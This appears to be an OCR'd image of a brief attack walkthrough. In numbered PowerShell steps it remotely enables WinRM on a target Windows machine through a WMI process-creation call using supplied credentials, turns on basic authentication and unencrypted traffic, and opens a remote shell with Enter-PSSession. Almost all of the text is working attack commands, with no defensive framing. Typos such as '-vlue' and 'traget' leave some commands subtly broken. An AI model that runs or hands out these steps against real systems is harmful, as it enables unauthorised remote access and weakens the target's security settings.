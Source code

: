 1. On the attacked machine start cmd as administrator
2. Access powershell - powershell
3. Stop the WinRM service - stop-service winrm
4. On the attacker machine access a privileged cmd and verify WinRM service is enabled - winrm qc
5. access powershell - powershell
6. Verify the targeted pc is trusted host - set-item wsman:\localhost\client\trustedhosts -value ["target pc name"]
7. Rastart the WinRM service to apply changes - restart-service winrm
8. Define credentials and the following commands into variables:
	$password = convertto-securestring ["password"] -asplaintext -force
	$cred = new-object system.management.automation.pscredential(["user"], $password)
	$command = "cmd /c powershell.exe -c set-wsmanquickconfig -force;set-item wsman:\localhost\service\auth\basic -value '$true;set-item wsman:\localhost\service\allowunencrypted -vlue '$true;register-pssessionconfiguration -name microsoft.powershell -force"
9. Use Wmi in order to activate the traget's WinRM service - invoke-wmimethod -path "win32_process" -name "create" -computername [target name] -credential $cred -argumentlist $command
10. Use enter-PSSession in order to access the remote machine over WinRM - enter-pssession -computername [computer name] -credential $cred
11. Check whoami